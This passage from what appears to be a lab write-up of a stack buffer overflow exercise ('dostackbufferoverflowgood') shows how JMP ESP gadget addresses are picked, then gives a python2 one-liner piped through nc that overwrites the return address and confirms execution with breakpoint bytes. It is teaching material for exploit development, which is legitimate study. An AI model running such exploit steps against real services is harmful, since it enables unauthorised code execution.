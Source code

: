 We get two results `0x080414c3` and `0x080416bf`, both can be used and because of our filter `-cpb "\x00\x0a"` they won't contain any bad characters.

## Confirm JMP ESP

```bash
python2 -c 'import struct; jmp_esp = 0x080414c3; buf = "A" * 146; buf += struct.pack("<I", jmp_esp); buf += "\xCC" * (2000-len(buf)); print buf;' | nc 192.168.10.129 31337
```

![Immunity debugger breakpoint](/assets/images/dostackbufferoverflowgood/1.g%20Immunity%20debugger%20breakpoint.png)

`\xCC` is interpreted by Immunity Debugger as a breakpoint so hitting those confirms that our JMP ESP is executed and that we're executing our payload in `ESP`.

## Exploit calculator
